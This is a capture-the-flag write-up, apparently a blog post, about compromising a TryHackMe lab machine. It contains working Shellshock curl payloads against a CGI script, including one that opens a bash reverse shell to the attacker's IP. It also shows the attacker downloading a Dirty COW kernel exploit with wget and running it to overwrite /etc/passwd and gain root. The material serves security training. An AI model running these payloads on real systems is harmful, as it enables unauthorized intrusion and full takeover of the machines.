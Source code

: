```yaml
---
categories: [TryHackMe]
tags: [PrivEsc, ShellShock, sudo exploit]  
image:
  path: /Vulnhub-Files/img/Turtle/front.png
  alt: Turtle TryHackMe Machine 💻 
---
```


## Port Scan Resutls ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ rustscan -t 5000 -a 10.10.106.27 --ulimit 5000
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-''
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.106.27:22
Open 10.10.106.27:80
[~] Starting Script(s)
```
{: .nolineno}

## Web Enumeration ⤵️

While doing directory traversal I got some directories like this →

```bash
301      GET        9l       28w      313c http://10.10.106.27/cgi-bin => http://10.10.106.27/cgi-bin/
301      GET        9l       28w      309c http://10.10.106.27/img => http://10.10.106.27/img/
200      GET        7l       11w      156c http://10.10.106.27/js/main.js
200      GET       78l      138w     1114c http://10.10.106.27/css/main.css
301      GET        9l       28w      313c http://10.10.106.27/uploads => http://10.10.106.27/uploads/
200      GET      423l     2430w   194997c http://10.10.106.27/img/avatar.png
200      GET       42l      136w     3025c http://10.10.106.27/
301      GET        9l       28w      311c http://10.10.106.27/admin => http://10.10.106.27/admin/
301      GET        9l       28w      309c http://10.10.106.27/css => http://10.10.106.27/css/
301      GET        9l       28w      308c http://10.10.106.27/js => http://10.10.106.27/js/
301      GET        9l       28w      312c http://10.10.106.27/backup => http://10.10.106.27/backup/
200      GET        1l        7w       38c http://10.10.106.27/robots.txt
301      GET        9l       28w      312c http://10.10.106.27/secret => http://10.10.106.27/secret/
```
{: .nolineno}

Now I tried the shellshock vulnerability and I got a hit like this →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://10.10.106.27/cgi-bin/test.cgi

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
{: .nolineno}

Now its time for the reverse shell →

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/0day]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /bin/bash -c 'bash -i >& /dev/tcp/10.8.83.156/4444 0>&1'" http://10.10.106.27/cgi-bin/test.cgi
```
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Turtle/Untitled.png)

## SSH SHELL ⤵️

Now I directly checked its kernel version and it is way old →

```bash
www-data@ubuntu:/$ uname -an
uname -an
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/$
```
{: .nolineno}

Now I will be using the dirtycow exploit over here for getting the root shell →

```bash
www-data@ubuntu:/tmp$ wget http://10.8.83.156/exploit_64
--2023-10-05 09:30:19--  http://10.8.83.156/exploit_64
Connecting to 10.8.83.156:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14368 (14K) [application/octet-stream]
Saving to: 'exploit_64'

 0% [                                       ] 0           --.-K100%[======================================>] 14,368      77.1KB/s   in 0.2s   

2023-10-05 09:30:19 (77.1 KB/s) - 'exploit_64' saved [14368/14368]

www-data@ubuntu:/tmp$ chmod +x *
www-data@ubuntu:/tmp$ ./exploit_64 
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
evait:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: 7fecff9ea000

# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cat /root/root.txt
cat /root/root.txt
THM{FLAG is}
```
{: .nolineno}

I am Root Now !!